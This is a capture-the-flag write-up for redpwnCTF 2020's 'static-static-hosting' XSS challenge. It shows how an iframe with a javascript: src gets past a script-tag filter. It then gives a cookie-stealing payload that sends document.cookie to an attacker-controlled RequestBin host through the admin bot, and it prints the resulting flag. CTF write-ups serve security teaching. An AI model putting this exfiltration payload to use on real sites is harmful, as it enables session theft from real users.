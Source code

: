 ```yaml
---
layout: post
title: "static-static-hosting"
author: "shreyas-sriram"
---
```


Seeing that my last website was a success, I made a version where instead of storing text, you can make your own custom websites! If you make something cool, send it to me here.

`https://admin-bot.redpwnc.tf/submit?challenge=static-static-hosting` (admin-bot)

Site: `static-static-hosting.2020.redpwnc.tf`

Note: The site is entirely static. Dirbuster will not be useful in solving it.

# Solution

* The input is getting reflected in the next page, this could be a case of **XSS**
* But trying `<script>alert('1')</script>` as payload doesn't execute **XSS**
* Looking through the source code, it is clear that there is some kind of filtering for `<script>` and only certain attributes like `src, width, height, alt, class` can be used
* This is one of the payloads that works<br/>
`<iframe src="javascript:alert(1)">`
* There is an admit-bot in the question which will visit the URL provided, this can be exploited to steal the admin's cookie
* Setup a [RequestBinURL](https://requestbin.com)
* Use the following payload in the static-pastebin<br/>
`<iframe src="javascript:var img = new Image(0,0); img.src='http://<RequestBinURL>/image.php?c=' + document.cookie; document.body.appendChild(img);"></iframe>`
* Copy the URL and submit to the admin-bot<br/>
URL  :  `https://static-static-hosting.2020.redpwnc.tf/site/#<Base64-payload>`
* View the logs on the **RequestBinURL** to obtain the flag<br/>
`flag{wh0_n33d5_d0mpur1fy}`
